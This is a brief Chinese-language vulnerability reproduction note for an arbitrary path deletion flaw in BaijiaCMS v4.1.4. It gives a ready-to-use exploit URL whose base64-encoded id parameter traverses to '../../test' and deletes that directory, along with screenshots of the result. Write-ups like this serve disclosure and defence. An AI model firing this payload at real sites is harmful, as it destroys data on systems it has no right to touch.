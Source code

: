 ```yaml
---
title: 百家cms v4.1.4 任意路径删除漏洞
id: zhfly3325
---
```


# 百家cms v4.1.4 任意路径删除漏洞

## 一、漏洞简介

## 二、漏洞影响

百家cms v4.1.4

## 三、复现过程

```
# 需要后台权限
# 只能删除路径
http://www.0-sec.org/index.php?mod=site&act=manager&do=database&op=delete&id=Li4vLi4vdGVzdA==&beid=1 
```

根目录下创建test文件夹，里面有内容为123的test.txt文件

![image](../img/b2791d549d6ee9d1cf5ba922ddeaebf6.png)

访问payload
将参数转为base64并方位payload

![image](../img/7936565bc7be4283bef41720a7b31b1d.png)

![image](../img/ea79c722753555ad851f82835b21a027.png)

查看文件夹，已被删除

![image](../img/5e1690aa0068433a7721f6e2be40877b.png)

## 参考链接

> https://xz.aliyun.com/t/7542